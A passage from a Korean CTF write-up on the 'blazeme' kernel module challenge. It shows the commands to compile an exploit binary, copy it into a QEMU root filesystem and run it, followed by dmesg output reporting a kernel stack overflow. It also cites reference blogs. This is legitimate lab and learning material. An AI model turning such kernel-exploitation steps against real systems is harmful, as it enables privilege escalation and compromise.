 ```c
	return 0;
}
```

compile


```sh
gcc -static -O2 -Wall ex.c -o ex
```

qemu 내에는 gcc가 설치되어 있지 않아서 filesystem을 mount한 후 넣어줬다.


```sh
root@pwn:~/images# ls
blazeme.c  bzImage  ex  ex.c  rootfs.ext2  run.sh  solve.c
root@pwn:~/images# mkdir mnt
root@pwn:~/images# mount -t ext2 rootfs.ext2 ./mnt
root@pwn:~/images# ls ./mnt
bin  dev  etc  lib  lib64  linuxrc  lost+found  media  mnt  opt  proc  root  run  sbin  sys  tmp  usr  var
root@pwn:~/images# cp ./ex ./mnt/
root@pwn:~/images# umount ./mnt
root@pwn:~/images#
```

qemu를 실행시켜 트리거링 코드를 실행시킨다.

```sh
root@pwn:~/images# ./run.sh
WARNING: Image format was not specified for 'rootfs.ext2' and probing guessed raw.
         Automatically detecting the format is dangerous for raw images, write operations on block 0 will be restricted.
         Specify the 'raw' format explicitly to remove the restrictions.
qemu-system-x86_64: warning: TCG doesn't support requested feature: CPUID.01H:ECX.vmx [bit 5]

Welcome to Buildroot
buildroot login: blazeme
Password:
login: can't change directory to '/home/blazeme'
$ ls
bin         lib         media       root        tmp
dev         lib64       mnt         run         usr
etc         linuxrc     opt         sbin        var
ex          lost+found  proc        sys
$ ./ex
Segmentation fault
$
```

취약점이 트리거링되고, 세그폴트가 떴다.
`dmesg` 명령을 통해 커널 로그를 확인해보자!

```sh
$ dmesg
...
...
Hello AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Hello AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA@6�
Hello AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�6�
Hello AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�6�
...
...
BUG: stack guard page was hit at 00000000a8a5c2a5 (stack is 00000000dad4aef7..000000008ca3b93b)
kernel stack overflow (page fault): 0000 [#1] SMP NOPTI
Modules linked in: blazeme(O)
CPU: 0 PID: 98 Comm: ex Tainted: G           O     4.15.0 #1
Hardware name: QEMU Standard PC (i440FX + PIIX, 1996), BIOS 1.10.2-1ubuntu1 04/01/2014
```

[^fops]: <https://chardoc.tistory.com/8>
[^fops_exploit]: <https://procdiaru.tistory.com/82>
[^slab_allocator]: <http://jake.dothome.co.kr/slub/>
[^copy_to_user]: <https://blog.naver.com/PostView.nhn?blogId=ryutuna&logNo=100184443085&proxyReferer=https%3A%2F%2Fwww.google.com%2F>